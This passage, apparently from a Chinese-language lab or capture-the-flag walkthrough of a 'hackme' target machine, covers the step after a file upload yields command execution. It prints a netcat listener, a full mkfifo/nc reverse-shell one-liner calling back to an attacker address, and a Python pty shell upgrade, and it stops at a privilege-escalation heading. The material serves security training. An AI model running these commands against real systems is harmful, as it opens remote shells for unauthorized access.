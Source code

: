 这时候就是文件上传到命令执行了

![](./pic-hackme/33.jpg)

执行反弹`shell`的命令，当然需要先在`kali`开启监听

```shell
nc -lvnp 9999
```

这时候再构造反弹`shell`的命令，进行测试

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.10.6 9999 >/tmp/f
```

![](./pic-hackme/34.jpg)

查看靶机内安装`python`没有，安装的话，什么版本

```shell
compgen -c | grep python
```

然后使用`python`加一层`shell`

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 提权
